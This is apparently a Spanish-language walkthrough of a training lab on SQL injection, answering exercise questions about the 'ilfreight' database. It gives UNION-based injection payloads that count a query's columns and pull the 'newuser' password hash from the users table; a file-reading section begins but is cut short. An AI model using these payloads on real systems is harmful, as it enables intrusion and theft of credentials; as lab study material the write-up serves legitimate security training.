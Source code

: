 ## Exploitation

### Database Enumeration

#### Preguntas

**What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

Primero vemos cuántas columnas.

```
' UNION select 1,2,3,4-- -
```

Como ya sabes que la consulta tiene **4 columnas** y la página imprime las **columnas 2, 3 y 4**, usamos este UNION.

```
cn' UNION SELECT 1, username, password, 4
FROM ilfreight.users
WHERE username='newuser'-- -
```

<figure><img src="../.gitbook/assets/image (1701).png" alt=""><figcaption></figcaption></figure>

### Reading Files

#### Preguntas

**We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

Primero vemos cuántas columnas.

```
' UNION select 1,2,3,4-- -
```

Como ya sabes que la consulta tiene **4 columnas** y la página imprime las **columnas 2, 3 y 4**, usamos esto.
